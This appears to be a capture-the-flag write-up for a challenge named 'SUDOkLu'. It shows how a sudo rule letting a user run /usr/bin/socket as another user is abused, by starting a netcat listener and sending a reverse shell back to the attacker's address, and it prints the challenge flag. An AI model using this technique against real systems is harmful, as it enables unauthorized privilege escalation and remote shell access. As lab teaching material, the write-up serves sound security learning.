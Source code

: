 # SUDOkLu [199 solves] [50 points]

The credentials for SSH are given : `user:password123`

Our goal is to read : `/home/privilegeduser/flag.txt`

```
user@sudoklu:~$ sudo -l
Matching Defaults entries for user on sudoklu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User user may run the following commands on sudoklu:
    (privilegeduser) NOPASSWD: /usr/bin/socket
```

After logging in with SSH, we can see `user` can run `/usr/bin/socket` as `privilegeduser` with `sudo` without password

https://gtfobins.github.io/gtfobins/socket/

We can use socket to send a reverse shell back as `privilegeduser`

So just setup a listener :
```
nc -nlvp 1337
```

Then just send the reverse shell as `privilegeduser` with sudo :

```
sudo -u privilegeduser socket -qvp '/bin/sh -i' <our address> 1337
```

Then we can read the flag :
```
privilegeduser@sudoklu:/home/privilegeduser$ ls -la
total 28
drwxr-x--- 1 privilegeduser privilegeduser 4096 May 12 10:35 .
drwxr-xr-x 1 root           root           4096 May 12 10:35 ..
lrwxrwxrwx 1 root           root              9 May 12 10:35 .bash_history -> /dev/null
-rw-r--r-- 1 privilegeduser privilegeduser  220 May 12 10:35 .bash_logout
-rw-r--r-- 1 privilegeduser privilegeduser 3771 May 12 10:35 .bashrc
-rw-r--r-- 1 privilegeduser privilegeduser  807 May 12 10:35 .profile
-r-------- 1 privilegeduser privilegeduser   34 May 12 10:35 flag.txt
(remote) privilegeduser@sudoklu:/home/privilegeduser$ cat flag.txt 
Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}
```